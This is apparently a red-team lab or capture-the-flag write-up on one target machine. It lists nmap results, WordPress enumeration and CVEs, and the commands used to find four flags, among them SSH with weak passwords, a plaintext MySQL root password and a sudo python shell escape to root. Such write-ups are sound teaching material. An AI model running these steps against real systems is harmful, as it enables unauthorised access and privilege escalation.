 Red Team: Summary of Operations

Table of Contents

Exposed Services
Critical Vulnerabilities
Exploitation


### Exposed Services
Nmap scan results for each machine reveal the below services and OS details:
- nmap -sV 192.168.1.110  

![](Images/Target%201%20Nmap%20Scan.png)

This scan identifies the services below as potential points of entry:

### Target 1

- SSH
- HTTP
- RPCBIND
- NETBIOS-SSN

The following vulnerabilities were identified on each target:

### Target 1

| Vulnerability        | Description                                                                                                                                                      | Impact                              | CVE or Standard |
|----------------------|------------------------------------------------------------------------------------------------------------------------------------------------------------------|-------------------------------------|-----------------|
| Port Scanning        | Use Nmap to detect open ports                                                                                                                                    | Show vulnerable ports and services. | Standard        |
| Enumerate WordPress  | Exhibit different behavior for a failed login attempt depending on whether the user account exists, which allows remote  attackers to enumerate valid usernames. | Enumerate User Accounts             | CVE-2009-2335   |
| Weak Password        | Using easily guess passwords                                                                                                                                     | Gain access to the machine          | Standard        |
| Privilege Escalation | when running with Python 3.6 or later,  allows remote authenticated users to execute  arbitrary code, leading to privilege escalation.                           | Gain root access to the machine     | CVE-2020-29396  |



![](Images/Word%20Press%20Scan.png)

### Exploitation
The Red Team was able to penetrate Target 1 and retrieve the following confidential data:

Target 1


flag1.txt: ![](Images/Flag1%20Found.png)


Exploit Used

- Weak password
- ssh michael@192.168.1.110
- cd /var/www/
- grep -RE flag


flag2.txt: ![](Images/Flag2%20Found.png)


Exploit Used

- Weak password
- ssh michael@192.168.1.110
- cd /var/www/
- ls
- cat flag2.txt

flag3.txt: ![](Images/Flag3.png)

Exploit Used

- Weak password
- ssh michael@192.168.1.110
- mysql -u root -p
- R@v3nSecurity
- use wordpress;
- SELECT * FROM wp_posts;

flag4.txt: 


![](Images/Flag4.png)

Exploit Used

- Privilege Escalation
- ssh steven@192.168.1.110
- sudo python -c 'import os;os.system("/bin/sh")'
- cd ../..
- cd root
- cat flag4
